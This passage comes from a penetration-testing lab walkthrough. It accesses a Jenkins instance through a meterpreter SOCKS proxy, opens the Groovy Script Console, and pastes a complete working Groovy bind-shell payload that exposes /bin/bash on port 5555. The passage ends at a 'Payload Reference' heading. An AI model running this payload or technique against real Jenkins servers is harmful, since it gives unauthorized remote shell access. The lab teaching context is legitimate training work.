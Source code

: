 ![](../media/Blackbox%20lab%20INE_76.png)

It's Jenkins web UI!

Important Note: The socks proxy server over meterpreter is quite unstable and it might get disconnected before you completely exploit the second machine. So you might have to gain back the meterpreter shell session on the first target machine (located at ) and set the proxy server again, in case the meterpreter session dies.

Click on Manage Jenkins link on the left panel:

![](../media/Blackbox%20lab%20INE_77.png)

Scroll down on Manage Jenkins page:

![](../media/Blackbox%20lab%20INE_78.png)

Click on Script Console section:

![](../media/Blackbox%20lab%20INE_79.png)

That should open the Groovy Script console:

![](../media/Blackbox%20lab%20INE_80.png)

Here we can execute arbitrary scripts and get a shell session! But since we are connected to the Jenkins instance over the socks proxy, we need to start a bind shell on that server and connect to it. The reverse shell won't work since that machine (on which Jenkins is running) doesn't know how to reach back to the Kali instance (which is located in a different network).

Let's do that next.

Step 22: Gaining a shell session on the second target machine (running Jenkins).

Paste the following Groovy bind shell payload in the script console and click on the Run button to execute the payload:

Groovy bind shell payload:

int port=5555;

String cmd="/bin/bash";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()

Socket s = new java.net.ServerSocket(port).accept()

InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();

OutputStream po=p.getOutputStream(),so=s.getOutputStream();

while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

![](../media/Blackbox%20lab%20INE_81.png)

Payload Reference:
